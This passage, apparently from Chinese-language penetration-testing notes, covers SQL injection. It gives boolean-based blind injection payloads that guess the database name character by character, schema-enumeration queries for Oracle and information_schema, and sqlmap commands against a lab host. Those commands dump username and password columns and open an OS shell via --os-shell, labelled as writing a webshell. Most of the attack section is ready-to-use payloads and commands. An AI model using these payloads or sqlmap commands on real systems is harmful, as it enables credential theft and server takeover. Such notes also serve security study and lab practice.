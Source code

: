 ### 8、布尔注入

#### 一、验证

1. 不插入任何东西，仅仅给一个不可能select出来的条件，如果返回的内容和正常select的内容存在差异，说明存在

##### 差异观察技巧：

1. 首先看前端渲染
2. 看返回包大小
3. 细致比较返回包

#### 二、手法（仅猜字段）

##### 判断字段长度:

```
存在的字段+闭合号 and length(database())>5--+
```

##### 逐个猜：

```
存在的字段+闭合号+AND+SUBSTRING(database(),1,1)='a'--+
存在的字段+闭合号+AND+SUBSTRING(database(),1,1)=闭合号+a
```

### 9、爆库

#### 一、回显注入 

```
Oracle:
	SELECT table_name FROM all_tables
	SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
非oracle:
	SELECT table_name FROM information_schema.tables
	SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

#### 二、条件注入

自写脚本、sqlmap

##### sqlmap:

```
#获取所有数据库名称
python sqlmap.py -u "http://192.168.124.133/Less-9/?id=1" --dbs --proxy="http://127.0.0.1:8080" --random-agent --batch
#获取当前数据库
python sqlmap.py -u "http://192.168.124.133/Less-9/?id=1" --current-db
#获取数据库security所有表名称
python sqlmap.py -u "http://192.168.124.133/Less-9/?id=1" --tables -D security
#获取数据库security的users表的所有列名
python sqlmap.py -u "http://192.168.124.133/Less-9/?id=1" --columns -D security -T users
#获取数据库security的users表的username和password列的值
python sqlmap.py -u "http://192.168.124.133/Less-9/?id=1" --dump -D security -T users -C username,password
#写马
python sqlmap.py -u "http://192.168.124.133/Less-9/?id=1" --os-shell 
必加参数：
	--proxy="http://127.0.0.1:8080" --random-agent --batch
```

